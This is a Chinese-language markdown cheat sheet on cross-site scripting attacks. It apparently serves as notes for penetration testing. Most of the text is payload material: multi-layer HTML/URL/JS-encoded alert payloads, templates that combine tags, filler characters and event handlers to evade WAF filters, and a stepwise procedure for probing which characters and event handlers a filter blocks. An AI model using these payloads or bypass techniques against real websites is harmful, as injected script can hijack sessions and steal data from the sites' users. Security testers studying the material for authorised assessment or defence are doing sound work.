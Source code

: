 # xss 攻击和绕过思路

## 什么样的api可能存在xss 漏洞
输入参数如果能回显则可能存在xss 漏洞

存在xss 的位置可能是
* html 内容
* html 属性
* css 内联样式
* 内联js或者json
* href 等

常见的是html 内容和属性
```
<input> html 内容 </input>

<input> html 内容 </input value=""// html 属性>

```

## html编码，url 编码 和js 编码

html 的解析顺序为3个环节：HTML解码 -->URL解码 -->JS解码

举例1：
```
1. 对javascript:alert(1)进行HTML编码
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
2. 对alert进行JS编码
<img src=xxx onerror="javascript:\u0061\u006c\u0065\u0072\u0074(1)">
3. 以上两种方法混用
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;&#x28;&#x31;&#x29;">

```
举例2：
```
1. 原代码
<a href="javascript:alert('xss')">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074('xss')">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;">test</a>

```

## 攻击顺序
1. 判断是否存在字符串编码
输入<script>alert("1")</script>, 看是否转成html 实体，可以判断是否使用html实体转换。
  
2. 是否存在waf
一般waf 返回403，如果发现403，则存在waf拦截。

## waf 绕过
### 1. xss输出在html内容

一般payload 格式有下面几种
```
<{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}
```

```
<sCriPt{filler}sRc{?filler}={?filler}{url}{?filler}{>,//,Space,Tab,LF}
```

```
<A{filler}hReF{?filler}={?filler}{quote}{special}:{javascript}{quote}{?filler}{>,//,Space,Tab,LF}
```

**{tag}**：html 标签名： a img script 等等

**{filter}**：空格，/ 等，可以是url 编码的字符
```
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s] tab
<tag%09%09xxx -如果失败， s+ tabtab
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+
```
**event_handler** 可能是多个even 函数:
```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
```
**{javascript}**: js代码
js 代码可以混淆，可以js编码成unicode，可以使用html实体编码，几乎没法正则表达式绕过


### 2. xss输出在html 属性
常见的payload 格式：
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```

## html 编码绕过
html 一般会过滤掉< > " &, 所以输出在html 内容位置会比较难绕过，输出在html 属性的payload 通过换编码，混淆等有很多绕过方式。
一般payload 以下格式
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```
举例：
```
" onclick="alert('xss')"
```
## payload 构造试探
```
// 判断是否存在htmlspecialchars
<script>alert("1")</script>

// 判断是否filter格式
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s]
<tag%09%09xxx -如果失败， s+
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+

//判断event_handler是否黑名单格式
<tag{filler}onxxx – 如果失败，onw+.
如果通过， on(load|click|error|show)
<tag{filler}onclick – 如果通过，则没有事件处理程序检查正则表达式。

//构造js payload
```
